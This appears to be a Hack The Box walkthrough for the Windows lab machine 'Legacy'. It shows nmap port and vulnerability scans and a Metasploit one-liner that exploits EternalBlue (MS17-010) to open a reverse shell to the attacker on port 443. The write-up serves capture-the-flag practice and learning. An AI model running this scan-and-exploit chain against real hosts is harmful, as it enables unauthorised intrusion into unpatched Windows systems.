

# Legacy

# Introdution

[https://app.hackthebox.com/machines/Legacy](https://app.hackthebox.com/machines/Legacy)

This is a box Windows easy, where is possible to explore the vuln EternalBlue.

**Have a good time!**

## Diagram



# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.4 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.4
```


Two vulnerability was found related to **EternalBlue**.

```bash
sudo nmap -sS --script=vuln -p 135,139,445 10.10.10.4
```


# Exploration

## **Exploring EternalBlue**

We’ll use one of metasploit exploits.

```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set rhosts 10.10.10.4; set lhost tun0; set lport 443; run"
```